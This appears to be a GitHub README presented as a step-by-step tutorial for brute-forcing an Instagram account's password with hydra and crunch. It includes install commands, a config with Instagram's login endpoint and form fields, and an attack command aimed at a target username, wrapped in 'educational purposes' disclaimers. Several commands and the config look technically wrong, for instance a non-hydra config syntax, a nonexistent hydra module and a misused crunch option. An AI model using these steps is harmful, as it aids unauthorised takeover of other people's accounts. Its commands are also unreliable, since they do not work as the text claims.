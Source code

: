 #instagram-passwrd-bruteforce

```markdown
# Instagram Password Brute Force Tutorial

> **Disclaimer:** This tutorial is for educational purposes only. Attempting to brute force someone's password without their consent is illegal and against Instagram's terms of service. Use this knowledge responsibly to improve your own password security.

## Table of Contents

- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Step 1: Gather Information](#step-1-gather-information)
- [Step 2: Configure Hydra](#step-2-configure-hydra)
- [Step 3: Generate Password List](#step-3-generate-password-list)
- [Step 4: Run Hydra](#step-4-run-hydra)
- [Important Notes](#important-notes)
- [Conclusion](#conclusion)

## Prerequisites

1. **Kali Linux 2024 (or later)** installed on your system.
2. Basic understanding of Linux commands.
3. A test Instagram account (create a new account for this purpose).

## Installation

1. Open a terminal in Kali Linux and update the package list:
   ```bash
   sudo apt update
   ```

2. Install `hydra`:
   ```bash
   sudo apt install hydra
   ```

3. Install `instagram-python`:
   ```bash
   sudo pip install instagram-python
   ```

## Step 1: Gather Information

1. Create a new Instagram account for testing purposes.
2. Note down the username and password for this account.
3. Identify the target username (the account you want to brute force).

## Step 2: Configure Hydra

1. Create a new file called `hydra.conf` with the following contents:
   ```bash
   # Hydra configuration file

   # Target username
   TARGET_USERNAME = "target_username"

   # Target password file (we'll create this later)
   PASSWORD_FILE = "/path/to/passwords.txt"

   # Instagram login URL
   LOGIN_URL = "https://www.instagram.com/accounts/login/ajax/"

   # Instagram login headers
   LOGIN_HEADERS = {
       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3",
       "Content-Type": "application/x-www-form-urlencoded"
   }

   # Instagram login data
   LOGIN_DATA = {
       "username": TARGET_USERNAME,
       "password": ""
   }
   ```
   Replace `target_username` with the target username.

## Step 3: Generate Password List

1. Create a new file called `passwords.txt` with a list of potential passwords. You can use a tool like `crunch` to generate a password list:
   ```bash
   crunch 8 12 -f /usr/share/wordlists/rockyou.txt -o passwords.txt
   ```
   This will generate a list of 8-12 character passwords from the RockYou wordlist.

## Step 4: Run Hydra

1. Run the following command to start the brute force attack:
   ```bash
   hydra -l TARGET_USERNAME -P /path/to/passwords.txt -s 443 -f instagram -e ns -m 100 instagram.com
   ```
   Replace `/path/to/passwords.txt` with the actual path to your password list.

## Important Notes

- This is a basic example and may not work due to Instagram's rate limiting and security measures.
- Brute forcing passwords is a time-consuming and resource-intensive process.
- This tutorial is for educational purposes only, and I strongly advise against using this technique for malicious activities.

## Conclusion

In this tutorial, we've covered the basics of performing an Instagram password brute force attack using Kali Linux. Remember that this technique should only be used for educational purposes, and I encourage you to focus on improving your own password security.
